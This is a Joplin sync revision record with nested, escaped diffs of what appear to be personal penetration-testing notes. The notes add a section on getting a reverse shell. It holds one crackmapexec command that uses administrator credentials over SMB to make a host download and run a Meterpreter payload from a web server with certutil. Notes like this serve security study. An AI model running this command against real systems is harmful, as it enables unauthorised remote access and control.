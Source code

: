 id: 4c6eab11b5654bb1a9406b2cdcee44e7
parent_id: 
item_type: 1
item_id: 0023bccf8df8438aba5426550092a75b
item_updated_time: 1646016692007
title_diff: "[{\"diffs\":[[1,\"09e699346b9f4cf09e464720d7f05d59\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":32}]"
body_diff: "[{\"diffs\":[[1,\"id: 09e699346b9f4cf09e464720d7f05d59\\\r\\\nparent_id: ed44b2d8abe84a16ad544cccd02c1495\\\r\\\nitem_type: 1\\\r\\\nitem_id: 675162c6268c4652933f50981ec28893\\\r\\\nitem_updated_time: 1643889989446\\\r\\\ntitle_diff: \\\"[]\\\"\\\r\\\nbody_diff: \\\"[{\\\\\\\"diffs\\\\\\\":[[0,\\\\\\\"3d1f6)\\\\\\\\\\\\\n\\\\\\\\\\\\\n\\\\\\\"],[1,\\\\\\\"# Execute System Command (To get Reverse Shell)\\\\\\\\\\\\\n\\\\\\\\\\\\\n![a7672b06a15243b1861a3e34750b3da2.png](:/1ed264f0296c44348176e9a7071b686d)\\\\\\\\\\\\\n\\\\\\\\\\\\\nE.g. we have a payload and have opened a web server, and we have setup a multi/handler to get the reverse shell\\\\\\\\\\\\\n\\\\\\\\\\\\\n> crackmapexec smb 192.168.1.58 -u 'Administrator' -p 'P@wsw0rd1' -x 'certutil -urlcache -f http://192.168.1.2:8088/meterpreter\\\\\\\\\\\\\\\\_shell.exe mterpreter\\\\\\\\\\\\\\\\_shell.exe && cmd /c meterpreter_shell.exe'\\\\\\\\\\\\\n\\\\\\\\\\\\\n![0b7da67312474b101094faa914a94067.png](:/df955198c3f448028aa960aa6bc61bae)\\\\\\\\\\\\\n\\\\\\\\\\\\\n\\\\\\\"],[0,\\\\\\\"asd\\\\\\\"]],\\\\\\\"start1\\\\\\\":2124,\\\\\\\"start2\\\\\\\":2124,\\\\\\\"length1\\\\\\\":11,\\\\\\\"length2\\\\\\\":522}]\\\"\\\r\\\nmetadata_diff: {\\\"new\\\":{},\\\"deleted\\\":[]}\\\r\\\nencryption_cipher_text: \\\r\\\nencryption_applied: 0\\\r\\\nupdated_time: 2022-02-03T12:11:31.843Z\\\r\\\ncreated_time: 2022-02-03T12:11:31.843Z\\\r\\\ntype_: 13\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":1054}]"
metadata_diff: {"new":{"id":"0023bccf8df8438aba5426550092a75b","parent_id":"fb73d1d872ce4ee6ab184091f1e4c67b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1646016691997,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:54:21.475Z
created_time: 2022-02-28T02:54:21.475Z
type_: 13